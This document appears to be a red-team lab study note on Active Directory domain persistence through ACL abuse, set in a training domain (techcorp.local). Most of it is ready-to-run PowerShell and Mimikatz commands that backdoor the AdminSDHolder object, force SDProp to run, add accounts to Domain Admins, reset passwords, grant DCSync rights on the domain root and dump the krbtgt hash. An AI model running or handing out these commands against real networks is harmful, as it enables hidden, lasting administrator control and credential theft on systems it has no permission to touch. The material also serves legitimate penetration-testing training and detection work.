 # Domain Persistence - Using ACLs

- [Domain Persistence - Using ACLs](#domain-persistence---using-acls)
  - [AdminSDHolder](#adminsdholder)
  - [Rights Abuse](#rights-abuse)

---

## AdminSDHolder

**AdminSDHolder** resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups (called **Protected Groups**).

**Security Descriptor Propagator (SDPROP)** runs every hour and compares the ACL of protected groups and members with the ACL of **AdminSDHolder** and any differences are overwritten on the object ACL.

<br/>

| Protected Groups | |
|---|---|
|Account Operators|Enterprise Admins|
|Backup Operatros|Domain Controllers|
|Server Operators|Read-only Domain Controllers|
|Printer Operators|Schema Admins|
|Domain Admins|Administrators|
|Replicator| |

<br/>

Well known abuse of some of the Protected Groups - All of the below can log on locally to DC

|Protected Group | |
|--|--|
| Account Operators| Cannot modify DA/EA/BA groups. Can modify nested group within these groups. |
| Backup Operators | Backup GPO, edit to add SID of controlled account to a privileged group and Restore. |
| Server Operators | Run a command as system (using the disabled Browser service) |
| Print Operators | Copy `ntds.dit` backup, load device drivers. |

<br/>

With DA privileges (Full Control/Write permissions) on the `AdminSDHolder` object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the `AdminSDHolder` object.

<br/>

In 60 minutes (when `SDPROP` runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.

<br/>

Add `FullControl` permissions for a user to the `AdminSDHolder` as DA:

- PowerView

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

- AD Module & RACE toolkit (https://github.com/samratashok/RACE)

```
Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose
```

<br/>

Other interesting permissions (ResetPassword, WriteMembers) for a user to the `AdminSDHolder`:

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser64 -Rights ResetPassword -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser64 -Rights WriteMembers -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

<br/>

Run `SDProp` manually using `Invoke-SDPropagator.ps1` from Tools directory:

```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

For pre-Server 2008:

```
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

<br/>

**Check the Domain Admins permission as normal user:**

- PowerView

```
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser64"}
```

- AD Module

```
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'studentuser1'}
```

<br/>

**Abusing Full Control:**

- PowerView

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

- AD Module

```
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

<br/>

**Abusing ResetPassword:**

- PowerView

```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

- AD Module

```
Set-ADAccountPassword -Identity testda -NewPassword
(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

<br/>

---

## Rights Abuse

There are even more interesting ACLs which can be abused.

For example, with DA privileges, the **ACL for the domain root** can be
modified to provide useful rights like **FullControl** or the ability to run "**DCSync**".

<br/>

**Add FullControl rights:**

- PowerView

```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

- AD Module + RACE:

```
Set-ADACL -SamAccountName studentuser64 DistinguishedName 'DC=us,DC=techcorp,DC=local' -Right GenericAll -Verbose
```

<br/>

**Add rights for DCSync:**

- PowerView

```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser64 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

- AD Module

```
Set-ADACL -SamAccountName studentuser64 DistinguishedName 'DC=us,DC=techcorp,DC=local' -GUIDRight DCSync -Verbose
```

<br/>

**Execute DCSync**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

or

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

<br/>

----

